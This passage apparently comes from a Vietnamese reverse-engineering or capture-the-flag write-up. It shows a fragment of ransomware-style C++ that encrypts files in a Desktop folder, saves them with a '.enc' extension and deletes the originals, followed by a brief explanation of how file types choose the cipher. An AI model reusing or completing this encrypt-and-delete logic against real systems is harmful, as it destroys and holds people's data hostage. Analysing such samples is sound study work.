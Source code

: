 ```C++
		nRead += n;
	}
	fclose(f);
	if (bIsSpecial)
	{
		unsigned int nBlock = fileSize / ENC_BLOCK_SIZE;
		for (unsigned int i = 0; i < nBlock; ++i)
		{
			encrypt1(ENC_NUM_ROUND, &lpBuffer[2 * i], g_key1);
		}
	}
	else
	{
		encrypt2(lpBuffer, fileSize, (unsigned char*)&g_key2, KEY_SIZE);
	}

	char szNewPath[260];
	strcpy(szNewPath, szPath);
	strcat(szNewPath, ".enc");
	FILE* newFile = fopen(szNewPath, "wb");
	unsigned int nWrite = 0;
	if (newFile == NULL)
	{
		free(lpBuffer);
		return;
	}
	while (nWrite < fileSize)
	{
		int n = fwrite((const void*)(lpBuffer + nWrite), sizeof(unsigned char), MIN(FWRITE_BLOCK_SIZE, fileSize - nWrite), newFile);
		nWrite += n;
	}
	fclose(newFile);
	DeleteFileA(szPath);
	free(lpBuffer);
}

void initKey()
{
	srand(time(0));
	for (int i = 0; i < KEY_SIZE; ++i)
		g_key1[i] = (unsigned int)rand() % 256;
	g_key2 = (0xDE << 24) | (0xAD << 16) | (0xC0 << 8) | (0xDE);
}
```

Đoạn chương trình này sẽ tìm kiểm file nằm trong thư mục `C:\Users\xikhud\Desktop\EncFolder` để mã hoá. Nó sử dụng đuôi file để xác định xem file xem nào là file đặc biệt (đuôi file có dạng `"exe", "png", "pdf"`). Từ đó, file đặc biệt sẽ bị mã hoá bằng hàm `encrypt1` còn file khác mã hoá bằng hàm `encrypt2`.
